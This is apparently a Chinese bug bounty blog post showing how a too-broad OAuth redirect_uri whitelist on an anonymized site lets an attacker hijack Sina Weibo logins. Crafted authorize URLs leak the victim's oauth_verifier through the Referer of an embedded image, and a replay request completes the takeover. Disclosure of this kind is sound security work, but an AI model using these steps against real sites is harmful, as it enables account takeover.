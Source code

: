 ```yaml
---
layout: post
title: 2018-01-20-另外几个OAuth认证redirect_url设置过宽泛导致的授权劫持案例分享
categories: [bounty]
tags: [bounty]
---
```

这一篇也是延续第1篇的技巧，主要的问题还是网站在向授权第三方登记授权返回地址时设置太宽泛，再加上自己的网站也有些缺陷问题，最后导致黑客可以劫持这些第三方的授权，这一篇有几个案例，然后也包含一些服务器端的简单检测绕过。

由于`AAA.com`在新浪/QQ授权注册的`redirect_uri`白名单域名过于宽泛，导致黑客可通过1次点击无感方式劫持`AAA.com`/`BBB.com`用户新浪授权，可通过2次点击劫持`AAA.com`/`BBB.com`用户QQ授权，然后登陆账户。


首先我在`http://bbs.AAA.com/thread-19478133-14-1.html`帖子插入了外链图片
![5.png](C:\Users\todaro\Desktop\2018.1.20\5.png)

#### 【1】新浪微博授权劫持

测试账户绑定新浪微博“不止步的todaro”,该用户可通过新浪微博快速登录其绑定的AAA账户
![6.png](C:\Users\todaro\Desktop\2018.1.20\6.png)
在账号和新浪微博已经绑定的情况下点击
`https://account.AAA.com/sina.php?to=http://i.AAA.com/`
可以直接跳转到账户，不用再点击一次头像

新浪微博用于授权的原始链接如下：
```
http://api.t.sina.com.cn/oauth/authorize?oauth_token=0501473f35ee53cebe6eb8433d6520f5&oauth_callback=http%3A%2F%2Faccount.AAA.com%2Fsinalogin.php
```


这个`oauth_token`非常重要，简单来讲就是黑客提供这个值，然后用户使用这个值将账户与微博绑定，后期黑客就要拿着这个值和另外一个授权值去登陆用户账户。这个值也不是一成不变的，所以需要黑客先在自己的浏览器打开`https://account.AAA.com/`然后点击新浪授权，在链接中获取该值。

获取到`oauth_token=43544e7c96e437852021d6c5a2415f1c`

所以最后的劫持链接是
```
http://api.t.sina.com.cn/oauth/authorize?oauth_token=43544e7c96e437852021d6c5a2415f1c&oauth_callback=http://bbs.AAA.com/thread-19478133-14-1.html
```

用户请求后，直接通过referer泄露了另外一个授权要用到的参数`oauth_verifier`的值
![7.png](C:\Users\todaro\Desktop\2018.1.20\7.png)
Referer:
```
http://bbs.AAA.com/thread-19478133-14-1.html?oauth_token=43544e7c96e437852021d6c5a2415f1c&oauth_verifier=620201
```

之后黑客回到刚刚自己获取`oauth_token`值得窗口请求
```
http://account.AAA.com/sinalogin.php?oauth_token=43544e7c96e437852021d6c5a2415f1c&oauth_verifier=620201
```
